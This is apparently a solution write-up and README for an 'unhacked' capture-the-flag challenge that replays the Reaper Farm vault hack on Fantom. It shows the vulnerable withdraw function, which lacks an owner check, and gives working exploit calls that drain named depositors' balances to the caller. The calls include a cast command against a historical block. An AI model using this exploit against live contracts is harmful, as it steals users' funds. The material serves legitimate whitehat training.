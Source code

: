 # solution - LCFR.eth

wasted much time on trying to find a way to programatically read storage of balance mapping to do this automated. :(

Vulnerable Function: 
```bash
function withdraw(uint256 assets, address receiver, address owner) external nonReentrant returns (uint256 shares) {
        require(assets != 0, "please provide amount");
        shares = previewWithdraw(assets);
        _withdraw(assets, shares, receiver, owner);
        return shares;
}

function _withdraw(uint256 assets, uint256 shares, address receiver, address owner) internal returns (uint256) {
        _burn(owner, shares); // [0] LCFR
        ...
        return assets;
}
```

no validation on msg.sender == owner == rekt

Exploit:
```bash
reaper.withdraw(reaper.maxWithdraw(0xEB7a12fE169C98748EB20CE8286EAcCF4876643b), address(this), 0xEB7a12fE169C98748EB20CE8286EAcCF4876643b);
reaper.withdraw(reaper.maxWithdraw(0x056abd53a55C187d738B4A982D36b4dFa506326A), address(this), 0x056abd53a55C187d738B4A982D36b4dFa506326A);
reaper.withdraw(reaper.maxWithdraw(0x954773dD09a0bd708D3C03A62FB0947e8078fCf9), address(this), 0x954773dD09a0bd708D3C03A62FB0947e8078fCf9);
reaper.withdraw(reaper.maxWithdraw(0xB573f01f2901c0dB3E14Ec80C6E12e4868DEC864), address(this), 0xB573f01f2901c0dB3E14Ec80C6E12e4868DEC864);
reaper.withdraw(reaper.maxWithdraw(0xfc83DA727034a487f031dA33D55b4664ba312f1D), address(this), 0xfc83DA727034a487f031dA33D55b4664ba312f1D);
```

Exploit with cast:
```bash
cast call --rpc-url $RPC --block 44000000 0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A "withdraw(uint256, address, address)" 272475965085592826065349 0x328eBc7bb2ca4Bf4216863042a960E3C64Ed4c10 0xEB7a12fE169C98748EB20CE8286EAcCF4876643b | cast 2d
```

files: 
test/ReaperHack.t.sol - main foundry exploit testcase

reapDeposits.py - an attempt to programattically find all depositors from when deposits started to automatically clear all the contracts held funds.


## welcome to unhacked

_unhacked_ is a weekly ctf, giving whitehats the chance to go back in time before real exploits and recover funds before the bad guys get them. 

_you are a whitehat, right anon?_

## meet reaper

[reaper farm](https://www.reaper.farm/) is a yield aggregator on fantom. their V2 vaults were hacked on 8/2.

there were a number of implementations of the vaults with damages totalling $1.7mm, but the exploit was the same on all of them, so let's just focus on one — a DAI vault hacked for over $400k.

- vault: [0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A](https://ftmscan.com/address/0x77dc33dc0278d21398cb9b16cbff99c1b712a87a)
- fantom dai: [0x8D11eC38a3EB5E956B052f67Da8Bdc9bef8Abf3E](https://ftmscan.com/address/0x8D11eC38a3EB5E956B052f67Da8Bdc9bef8Abf3E)

review the code in this repo, find the exploit, and recover > $400k.

## how to play

1. fork this repo and clone it locally.

2. update the .env file with an environment variable for FANTOM_RPC (already preset to the public RPC endpoint, which should work fine, in which case you can skip this).

3. review the code in the `src/` folder, which contains all the code at the time of the hack. you can explore the state of the contract before the hack using block 44000000. ex: `cast call --rpc-url ${FANTOM_RPC} --block 44000000 0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A "totalAssets()" | cast 2d`

4. when you find an exploit, code it up in `ReaperHack.t.sol`. the test will pass if you succeed.

5. post on twitter for bragging rights and tag [@unhackedctf](http://twitter.com/unhackedctf). no cheating.

## subscribe

for new weekly challenges and solutions, subscribe to the [unhacked newsletter](https://unhackedctf.substack.com/publish/post/69864558).
